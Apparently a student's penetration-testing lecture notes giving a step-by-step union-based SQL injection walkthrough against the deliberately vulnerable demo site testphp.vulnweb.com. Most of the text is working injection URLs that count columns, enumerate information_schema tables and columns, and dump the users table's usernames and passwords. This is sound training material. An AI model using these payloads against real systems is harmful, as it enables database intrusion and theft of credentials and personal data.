









#WAPT-notes

---
### what we'll learn
> Lecture Name : SQL Injection Exploitation Step By Step | Practical Demo?
> 1) how to get information from the application's database via SQL injection

### Overview
- exploiting via SQL injection , how we can change the name of database , which database using , table name , column name , sensitive details like username & password ✔️ 

### Extra Resources - SQL injection - Penetration Testing
- [Basics of SQL Injection - Penetration Testing for Ethical Hackers - YouTube](https://www.youtube.com/watch?v=2nXOxLpeu80&ab_channel=freeCodeCamp.org)
- [[HINDI] Blind SQL Injection | Methodology and Types | Conceptual Guide - YouTube](https://www.youtube.com/watch?v=O1UTuWkTaks&ab_channel=BittenTech)

---

### 1. how to get information from the application's database via SQL injection
- http://testphp.vulnweb.com/artists.php : is a website where we're gonna use to apply SQL injection
- STEP 0 : vulnerable parameter of the website i.e `http://testphp.vulnweb.com/artists.php?artist=1` 
- STEP 1 : Q : how do Anuj sir got to know that's the vulnerable parameter ? ✔️️
	- STEP 1.1 : Ans : when u put a single quote after `artist=1` like this `artist=1'` -> hit enter ,  
		output : throwing an error/exception  
		
    	 - & it's showing location i.e "/hj/var/www/artists.php on line 62"
- STEP 2 : `imp note ⭐` : whenever you feel that u got the vulnerable parameter (on which we can perform SQL injection)  
	then try to find out the "how many columns have in the application"  
	- STEP 2.1 : checking for 1st column , on URL address bar -> write `http://testphp.vulnweb.com/artists.php?artist=1 order by 1` , 
		  output : we'll get something 
		 
	- STEP 2.2 : for 2nd column , write `http://testphp.vulnweb.com/artists.php?artist=1 order by 2` , 
		 output : so again we'll get output
	- so the way we gave for 2nd column then same with 3rd column ,  
		so increase the columns to check on which column we're getting error ✔️
	- STEP 2.3 : checking for 3rd column , write `http://testphp.vulnweb.com/artists.php?artist=1 order by 3` , 
		 output : so again we'll get output
	- STEP 2.4 : checking for 4th column , write `http://testphp.vulnweb.com/artists.php?artist=1 order by 4` , 
		 output : a error ✔️  
		
	- which means this application contain only 3 columns (means web pages) ✔️
- STEP 3 : checking which columns are reflecting/coming & which are not
	- using `union` command to combine those columns which were giving output
	- STEP 3.1 : so `http://testphp.vulnweb.com/artists.php?artist=1 union select 1,2,3` ,  
		- here total 3 columns given cuz the application contain only 3 columns ✔️
		- STEP 3.1.1 : so hit enter , & output : as same as previous one
	- so same output is coming cuz due to 1 i.e `artist=1` , so we'll query or do changes in the URL,  
		so that it gets break - means expected output will not come ✔️
	- STEP 3.2 : put a single quote `http://testphp.vulnweb.com/artists.php?artist=1' union select 1,2,3`,  
		output : still getting the same error
	- so we'll give something different which is not expected input (like 1 , 2 , 3 , 4 & so on..) , so we'll give `-1` ✔️
	- STEP 3.3 : write `http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,2,3` , output :  
		
	- in URL we gave `1,2,3` but here 2 & 3 columns are coming but `1` column is not coming ,  
		output of 2nd & 3rd column is coming 
	- STEP 3.4 : in order to check more clearly , so write something custom on each column  
		i.e `http://test.php.vulnweb.com/artists.php?artist=1 union select "ace","ethical","sharmaji"` , output :  
		
	- so for 2nd column "ethical" & 3rd column "sharmaji" are reflecting/coming ,  
		so we got to know which columns are reflecting ✔️
- STEP 4 : finding database via finding which column is using database
	- so we directly put `database()` on 2nd column without checking cuz to save the time
	- Q : what's database() ✔️ 
		Ans : is a function which returns which database used by an app
	- STEP 4.1 : put this parameter `http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,database(),3` , output :  
		  
		output : so we got the database name `acuart`
	- & in order to play with this webapp , then we'll only change 2nd & 3rd column cuz these are 2 which gives output
- STEP 5: finding version & current user
	- STEP 5.1 : `http://testphp.vulnweb.com/artists.php?artist=-1 union select 1 ,version(),current_user()` -> hit enter , output :  
		
		 we got the version & current user i.e acuart@localhost
	- STEP 5.2 : to take out more info , pass these parameters  
		`http://testphp.vulnweb.com/artists.php?artist=-1 union select 1, table_name,3 from information_schema.tables where table_schema=database() limit 0,1`
		- in this command ,
			 - "http://testphp.vulnweb.com/artists.php?artist=-1 union select 1" remain same
			 - in 2nd column - we wrote table_name (means return all the values on 2nd column)
		- here `0,1` means return `1st` value , 
		- output :  
			 means 1st table name is "artists" , same way u can change the limit in URL like `limit 1,1` then u'll get "carts"
	- STEP 5.3 : but finding each columns individually via passing numbers will be difficult ,  
		so run this query `http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()`
    	- `group_concat()` will concat all table names & show them
    	- output : got all the tables names 
			 let's check "users" table (which might contain sensitive data)
- STEP 6 : taking out `users` sensitive data
	- STEP 6.1 : run `http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'`
    	- means we're retrieving columns of users table via `group_concat()` ✔️
	- output : got all the column names i.e uname,pass,cc,address,email,name,phone,cart
- STEP 7 : taking out username & password columns of "users" table
	- STEP 7.1 : use this parameter `http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,group_concat(uname),3 from users`
    	- this command will show all the usernames
    	- STEP 7.1.1 : hit enter & output : test (cuz we have only 1 username in the database)
	- STEP 7.2 : to get all the passwords of all usernames ,  
		use this parameter `http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,group_concat(pass),3 from users` ,  
		output : pass
	- STEP 7.3 : to show all usernames & passwords altogether  
		use this parameter `http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,group_concat(uname,"::",pass),3 from users` ,  
		output : test::test

### Summary
1) checking the webapp whether it's vulnerable or not by putting a single quote
2) checking number of columns in the application
3) checking which columns are reflecting/coming & which are not coming reflecting
4) finding database via finding which column is using/connected with database
5) finding version of tech used in application + current user
6) taking out users sensitive data
7) taking out all usernames & passwords

---
### End of Lecture (Doubts)
- in SQL injection , whatever we did - all those commands related to SQL